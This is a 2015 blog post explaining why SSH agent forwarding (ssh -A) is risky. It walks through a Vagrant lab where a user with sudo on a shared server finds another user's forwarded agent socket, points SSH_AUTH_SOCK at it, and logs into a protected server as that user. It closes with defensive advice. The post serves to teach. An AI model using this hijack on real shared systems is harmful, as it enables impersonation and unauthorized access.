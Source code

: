 ```yaml
---
layout: post
title: When is ssh -A insecure?
date: 2015-07-06 15:27:14 -0300
comments: true
author:
  name: Marcelo Dominugez
  email: marcelo@wyeworks.com
  twitter_handle: marpo60
  github_handle: marpo60
  image: /images/team/marcelo-dominguez.jpg
  description: Software engineer - Curious by nature - Sports lover - Tech guy
---
```


## Introduction

### What's the authentication agent forwarding for?

Let's start showing what `man ssh` says about it:

> `-A` Enables forwarding of the authentication agent
> connection. This can also be specified on a per-host basis in a
> configuration file.
Agent forwarding should be enabled with caution.  Users with the
ability to bypass file permissions on the remote host (for the agent's
UNIX-domain socket)
can access the local agent through the forwarded connection.  An
attacker cannot obtain key material from
the agent, however they can perform operations on the keys that
enable them to authenticate using the identities loaded into the
agent.

It tries to solve the following problem:

`Laptop -> Server A -> Server B`

User wants to connect to Server A and from Server A to Server B
forwarding all authentication requests to Laptop.

<!--more-->

### How do we use it?

{% codeblock lang:sh %}
  user@laptop$ ssh -A serverA
  user@serverA$ ssh serverB
  user@serverB$
{% endcodeblock %}

## So, when is ssh -A insecure?

The man page has the following note:

> Agent forwarding should be enabled with caution.

So, we have to be careful with this option, but what are the problems?

With the intention of gaining more insight about the problem. We'll do
an experiment, we'll set up a scenario that is far from ideal but it's
simple enough to reproduce the problem.

## Experiment

To follow this experiment you'll need to have [vagrant](https://www.vagrantup.com/) installed
in your computer. You don't need to have previous knowledge of vagrant
to follow the experiment.
All the config files used in this experiment can be found [here](https://github.com/marpo60/ssh_forward_agent_issue).

Let's start building a topology from scratch.

The topology will include 3 virtual servers and our own machine:

- host
- web (172.17.8.101)
- worker (172.17.8.102)
- secret (172.17.8.110)

Users:

- me
- Alice (Good)
- Eve (Bad)

Facts:

* The host machine is our machine where we will create the network
topology using virtual machines
* The web server is a virtual machine that will emulate a server
accessible from the internet.
* The worker server is a virtual machine that will emulate a
server accessible only from the web server.
* The secret server is a virtual machine that will emulate a
server accessible only by Alice from the internet.

Let's start the servers with `vagrant up`.

`host$ vagrant up` (This can take a while...)

First let's add all the keys to the ssh agent of the host
machine

{% codeblock lang:sh %}
  me@host$ ssh-add alice_id_rsa
  me@host$ ssh-add eve_id_rsa
{% endcodeblock %}

Now we'll open a new terminal and emulate that Alice is working
on the worker server

Note that for this experiment we set up another instance
of the ssh daemon in port 2222
in order to avoid messing with the default ssh server and
Vagrant configurations, please check the config files.

{% codeblock lang:sh %}
  me@host$ ssh -A -i alice_id_rsa -p 2222 alice@172.17.8.101
  alice@web:~$ ssh -p 2222 172.17.8.102
  alice@worker:~$
{% endcodeblock %}

Now on other terminal let's pretend to be Eve

{% codeblock lang:sh %}
  me@host$ ssh -i eve_id_rsa -p 2222 eve@172.17.8.101
{% endcodeblock %}

Eve will not use `-A` options because she doesn't need to use the
worker server

Eve finds out that alice is connected

{% codeblock lang:sh %}
  eve@web:~$ ps -aux | grep sshd | grep alice
  root      2469  0.0  0.8 107696  4252 ?        Ss   21:49   0:00
  sshd: alice [priv]
  alice     2522  0.0  0.3 107696  1952 ?        S    21:49   0:00
  sshd: alice@pts/1
  eve@web:~$
{% endcodeblock %}

And she also finds out that Alice is using `-A` because a socket
file was generated in /tmp/ssh-\*

{% codeblock lang:sh %}
  eve@web:~$ ls -lha /tmp/
  total 24K
  drwxrwxrwt  5 root    root    4.0K Jan 19 21:55 .
  drwxr-xr-x 23 root    root    4.0K Jan 19 21:34 ..
  drwxrwxrwt  2 root    root    4.0K Jan 19 21:34 .ICE-unix
  drwx------  2 alice   alice   4.0K Jan 19 21:49
  ssh-xeIzefGEYs
  -rwx--x--x  1 vagrant vagrant  676 Jan 19 21:34 vagrant-shell
  drwxrwxrwt  2 root    root    4.0K Jan 19 21:34 .X11-unix
  eve@web:~$
{% endcodeblock %}

Eve now becomes root and impersonate into Alice.

{% codeblock lang:sh %}
  eve@web:~$ sudo su
  root@web:/home/eve# export SSH_AUTH_SOCK=/tmp/ssh-xeIzefGEYs/agent.2522
  root@web:/home/eve# ssh -p 2222 alice@172.17.8.110
  alice@secret:~$
{% endcodeblock %}

So, with this simple stepts now Eve is connected to secret
machine as Alice.

## Conclusions

It's not unusual for users to have sudo permissions on shared
environments so you should avoid using
-A option if you don't trust that system. One
alternative could be to use `ProxyCommand` instead of `-A` like it
mentions [here](http://backreference.org/2010/02/26/jump-in-with-ssh-and-netcat/).

But in case you have to use the `-A` option and you don't trust the
sudoers of the shared system, create
a new pair of private and public keys for those servers,
in this way you'll reduce the risk of
compromising other servers.

Cheers!

